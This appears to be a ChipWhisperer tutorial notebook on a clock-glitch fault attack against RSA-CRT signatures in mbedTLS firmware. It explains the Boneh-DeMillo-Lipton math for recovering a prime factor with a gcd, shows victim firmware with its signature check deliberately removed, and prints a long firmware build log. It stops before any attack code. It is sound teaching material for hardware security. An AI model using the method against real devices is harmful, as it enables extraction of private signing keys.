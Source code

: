 
RSA FaultAttack
===============

Supported setups:

SCOPES:

-  OPENADC

PLATFORMS:

-  CWLITEARM

This advanced tutorial will demonstrate an attack on RSA signatures that
use the Chinese Remainder Theorem as an optimization. This tutorial will
make use of glitching, so it's recommended that you complete at least
Fault\_1-Introduction\_to\_Clock\_Glitch\_Attacks before attempting this
tutorial. You may also want to install gmpy2 before running this
tutorial, as it makes a later section of the tutorial much faster. Linux
users can install this via their package manager, Mac users via Brew,
and Windows users via the `Unofficial Windows Python
Binaries <https://www.lfd.uci.edu/~gohlke/pythonlibs/>`__.

Additionally, this tutorial has been designed for Arm targets only.
Users of other hardware will likely need to make changes to available
RSA libraries to complete this tutorial.

This attack is was originally detailed in a `1997 paper by Boneh,
Demillo, and
Lipton <https://www.researchgate.net/publication/2409434_On_the_Importance_of_Checking_Computations>`__.
This tutorial draws heavily from a blog post by David Wong, which you
can find
`here <https://www.cryptologie.net/article/371/fault-attacks-on-rsas-signatures/>`__.


**In [1]:**

.. code:: ipython3

    SCOPETYPE = 'OPENADC'
    PLATFORM = 'CWLITEARM'

Attack Theory
-------------

We won't cover much about what RSA (there's a `Wikipedia
article <https://en.wikipedia.org/wiki/RSA_(cryptosystem)>`__ for that),
but we will give a quick summary.

-  RSA is a public key crypto system. It can be used in a few different
   ways, but we'll be using it for signing messages in this case. In
   this mode, User A can sign a message using their private information.
   User B can then verify that User A was the one who signed the message
   using publically available information.
-  This means that some information is public, while other information
   is private.
-  Public information includes the public modulus N, and the public
   exponent e
-  Private information includes the private exponent d, as well as p and
   q, which are prime factors of N
-  The public information can be freely shared, but learning any private
   information compromises the whole system

The math of RSA (once you have all the key parts generated) is actually
pretty simple. To sign the message, the following equation can be
applied (with signature s, message m, private exponent d, and public
modulus N):

.. math:: s = m^d({mod}\ N)

To verify a signature, the following equation is used (with signature s,
public exponent e, message m, and public modulus N):

.. math:: s^e = m(mod\ N)

Despite the simplicity of these equations, signing messages in
particular is a very slow operation, with the implementation from
MBEDTLS, a popular crypto library for Arm devices, taking over 12M
cycles for RSA-1024 (and this is with the optimization we make in the
next section). This is because all of the numbers used in these
equations are huge (n and d are 1024 bits long in this case). As you can
imagine, any improvement we can make to the speed of this operation is
very important. It turns out there is a large speed optimization that we
can make.

Chinese Remainder Theorem (CRT)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Instead of computing :math:`s = m^d(mod\ N)`, we can instead break N
into two primes, p and q, such that :math:`n = pq`, then use those to
calculate the signature instead of N. As you might have guessed, p and q
are the same private information we talked about earlier. Bascially, if
we learn either, we'll be able to derive the rest of the private
information fairly easily. We won't go into all the math, but here's the
important operations:

-  Derive :math:`d_p` from d and p and :math:`d_q` from d and q
-  Calculate: :math:`s_1 = m^{d_p}(mod\ p)` and
   :math:`s_2 = m^{d_q}(mod\ q)`
-  Combine :math:`s_1` and :math:`s_2` into :math:`s` via CRT

Since p and q are much smaller than N, creating signatures is much much
faster this way. As such, many popular RSA implementations (including
MBEDTLS) use CRT to speed up RSA.

CRT Attack
~~~~~~~~~~

Suppose that instead of everything going smoothly as above, a fault
happens during the calculation of :math:`s_1` or :math:`s_2` (we'll
assume that the fault was with :math:`s_2` here, which will become
:math:`s^{'}_{2}`). If that happens, the following becomes true (with
faulty signatures :math:`s_2'`, which generates :math:`s'`):

.. math:: s'^e = m(mod\ p) \Rightarrow s'^e - m = 0 (mod\ p)

.. math:: s'^e \neq m(mod\ q) \Rightarrow s'^e - m \neq 0 (mod\ q)

The result of this is that p will be a factor of :math:`s'^e - m`, but q
and N will not be. Since p is also a factor of N, what follows is that:

.. math:: p = gcd(s'^e - m, N)

Thus, if we introduce a fault in the calculation of either :math:`s_1`
or :math:`s_2`, we'll be able to get either q or p, and from there the
rest of the private values!

Firmware
--------

Next, let's take a look at the RSA implementation we're attacking. For
this attack, we'll be using the ``simpleserial-rsa-arm`` project folder.
There's a few files here, but the important one is
``simpleserial-arm-rsa.c``. Open it. As you scroll through, you'll find
all our public/private values. Next, navigate to ``real_dec()``:

.. code:: c

    uint8_t buf[128];
    uint8_t hash[32];
    uint8_t real_dec(uint8_t *pt)
    {
         int ret = 0;

         //first need to hash our message
         memset(buf, 0, 128);
         mbedtls_sha256(MESSAGE, 12, hash, 0);

         trigger_high();
         ret = simpleserial_mbedtls_rsa_rsassa_pkcs1_v15_sign(&rsa_ctx, NULL, NULL, MBEDTLS_RSA_PRIVATE, MBEDTLS_MD_SHA256, 32, hash, buf);
         trigger_low();

         //send back first 48 bytes
         simpleserial_put('r', 48, buf);
         return ret;
    }

You'll notice that we first hash our message (``"Hello World!"``) using
SHA256. Once this is passed to the signature function, it will be padded
according to the PKCS#1 v1.5 standard. This isn't too important now, but
it will be important later. Next we sign our message using
``simpleserial_mbedtls_rsa_rsassa_pkcs1_v15_sign()``, then send back the
first 48 bytes of it. We'll be sending the signature back in multiple
chunks to avoid overflowing the CWLite's buffer of 128 bytes via
``sig_chunk_1()`` and ``sig_chunk_2()`` directly below this function.

We'll actually skip over
``simpleserial_mbedtls_rsa_rsassa_pkcs1_v15_sign()`` here, since most of
the important stuff actually happens in a different function. You should
note, however, that this function has been modified to remove a
signature check, which would need to be bypassed in a real attack.

Next, find the function ``simpleserial_mbedtls_rsa_private()``, a
cleaned up version of ``mbedtls_rsa_private()``, where the signature
calculation actually happens:

.. code:: c

    /*
     * Do an RSA private key operation
     */
    static int simpleserial_mbedtls_rsa_private( mbedtls_rsa_context *ctx,
                     int (*f_rng)(void *, unsigned char *, size_t),
                     void *p_rng,
                     const unsigned char *input,
                     unsigned char *output )

scrolling down a bit, we do indeed find that this function uses CRT to
speed up the calculation:

.. code:: c

        /*
         * Faster decryption using the CRT
         *
         * T1 = input ^ dP mod P
         * T2 = input ^ dQ mod Q
         */
        MBEDTLS_MPI_CHK( mbedtls_mpi_exp_mod( &T1, &T, DP, &ctx->P, &ctx->RP ) );
        MBEDTLS_MPI_CHK( mbedtls_mpi_exp_mod( &T2, &T, DQ, &ctx->Q, &ctx->RQ ) );

You can view more of the firmware if you want, but for now let's build
our firmware and then move over to our python script:


**In [2]:**

.. code:: ipython3

    CRYPTO_TARGET="MBEDTLS"
    CRYPTO_OPTIONS="RSA"
    NANO_FLASH = "NA"
    OPT = "2"
    if SCOPETYPE == "CWNANO":
        NANO_FLASH = "32K" #Need nano pro 32
        OPT = "2"


**In [3]:**

.. code:: bash

    %%bash -s "$PLATFORM" "$CRYPTO_TARGET" "$CRYPTO_OPTIONS" "$NANO_FLASH"
    cd ../hardware/victims/firmware/simpleserial-rsa
    make PLATFORM=$1 CRYPTO_TARGET=$2 CRYPTO_OPTIONS=$3 OPT=2 NANO_FLASH=$4


**Out [3]:**



.. parsed-literal::

    rm -f -- simpleserial-rsa-CWLITEARM.hex
    rm -f -- simpleserial-rsa-CWLITEARM.eep
    rm -f -- simpleserial-rsa-CWLITEARM.cof
    rm -f -- simpleserial-rsa-CWLITEARM.elf
    rm -f -- simpleserial-rsa-CWLITEARM.map
    rm -f -- simpleserial-rsa-CWLITEARM.sym
    rm -f -- simpleserial-rsa-CWLITEARM.lss
    rm -f -- objdir/\*.o
    rm -f -- objdir/\*.lst
    rm -f -- simpleserial-rsa.s simpleserial-rsa-xmega.s simpleserial-rsa-arm.s simpleserial.s stm32f3_hal.s stm32f3_hal_lowlevel.s stm32f3_sysmem.s rsa.s bignum.s md.s md5.s md_wrap.s sha1.s sha256.s sha512.s ripemd160.s oid.s
    rm -f -- simpleserial-rsa.d simpleserial-rsa-xmega.d simpleserial-rsa-arm.d simpleserial.d stm32f3_hal.d stm32f3_hal_lowlevel.d stm32f3_sysmem.d rsa.d bignum.d md.d md5.d md_wrap.d sha1.d sha256.d sha512.d ripemd160.d oid.d
    rm -f -- simpleserial-rsa.i simpleserial-rsa-xmega.i simpleserial-rsa-arm.i simpleserial.i stm32f3_hal.i stm32f3_hal_lowlevel.i stm32f3_sysmem.i rsa.i bignum.i md.i md5.i md_wrap.i sha1.i sha256.i sha512.i ripemd160.i oid.i
    .
    -------- begin --------
    arm-none-eabi-gcc (GNU Tools for Arm Embedded Processors 7-2018-q2-update) 7.3.1 20180622 (release) [ARM/embedded-7-branch revision 261907]
    Copyright (C) 2017 Free Software Foundation, Inc.
    This is free software; see the source for copying conditions.  There is NO
    warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
    
    .
    Compiling C: simpleserial-rsa.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/simpleserial-rsa.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/simpleserial-rsa.o.d simpleserial-rsa.c -o objdir/simpleserial-rsa.o 
    .
    Compiling C: simpleserial-rsa-xmega.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/simpleserial-rsa-xmega.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/simpleserial-rsa-xmega.o.d simpleserial-rsa-xmega.c -o objdir/simpleserial-rsa-xmega.o 
    .
    Compiling C: simpleserial-rsa-arm.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/simpleserial-rsa-arm.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/simpleserial-rsa-arm.o.d simpleserial-rsa-arm.c -o objdir/simpleserial-rsa-arm.o 
    .
    Compiling C: .././simpleserial/simpleserial.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/simpleserial.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/simpleserial.o.d .././simpleserial/simpleserial.c -o objdir/simpleserial.o 
    .
    Compiling C: .././hal/stm32f3/stm32f3_hal.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/stm32f3_hal.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/stm32f3_hal.o.d .././hal/stm32f3/stm32f3_hal.c -o objdir/stm32f3_hal.o 
    .
    Compiling C: .././hal/stm32f3/stm32f3_hal_lowlevel.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/stm32f3_hal_lowlevel.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/stm32f3_hal_lowlevel.o.d .././hal/stm32f3/stm32f3_hal_lowlevel.c -o objdir/stm32f3_hal_lowlevel.o 
    .
    Compiling C: .././hal/stm32f3/stm32f3_sysmem.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/stm32f3_sysmem.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/stm32f3_sysmem.o.d .././hal/stm32f3/stm32f3_sysmem.c -o objdir/stm32f3_sysmem.o 
    .
    Compiling C: .././crypto/mbedtls//library/rsa.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/rsa.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/rsa.o.d .././crypto/mbedtls//library/rsa.c -o objdir/rsa.o 
    .
    Compiling C: .././crypto/mbedtls//library/bignum.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/bignum.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/bignum.o.d .././crypto/mbedtls//library/bignum.c -o objdir/bignum.o 
    .
    Compiling C: .././crypto/mbedtls//library/md.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/md.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/md.o.d .././crypto/mbedtls//library/md.c -o objdir/md.o 
    .
    Compiling C: .././crypto/mbedtls//library/md5.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/md5.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/md5.o.d .././crypto/mbedtls//library/md5.c -o objdir/md5.o 
    .
    Compiling C: .././crypto/mbedtls//library/md_wrap.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/md_wrap.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/md_wrap.o.d .././crypto/mbedtls//library/md_wrap.c -o objdir/md_wrap.o 
    .
    Compiling C: .././crypto/mbedtls//library/sha1.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/sha1.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/sha1.o.d .././crypto/mbedtls//library/sha1.c -o objdir/sha1.o 
    .
    Compiling C: .././crypto/mbedtls//library/sha256.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/sha256.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/sha256.o.d .././crypto/mbedtls//library/sha256.c -o objdir/sha256.o 
    .
    Compiling C: .././crypto/mbedtls//library/sha512.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/sha512.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/sha512.o.d .././crypto/mbedtls//library/sha512.c -o objdir/sha512.o 
    .
    Compiling C: .././crypto/mbedtls//library/ripemd160.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/ripemd160.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/ripemd160.o.d .././crypto/mbedtls//library/ripemd160.c -o objdir/ripemd160.o 
    .
    Compiling C: .././crypto/mbedtls//library/oid.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/oid.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/oid.o.d .././crypto/mbedtls//library/oid.c -o objdir/oid.o 
    .
    Assembling: .././hal/stm32f3/stm32f3_startup.S
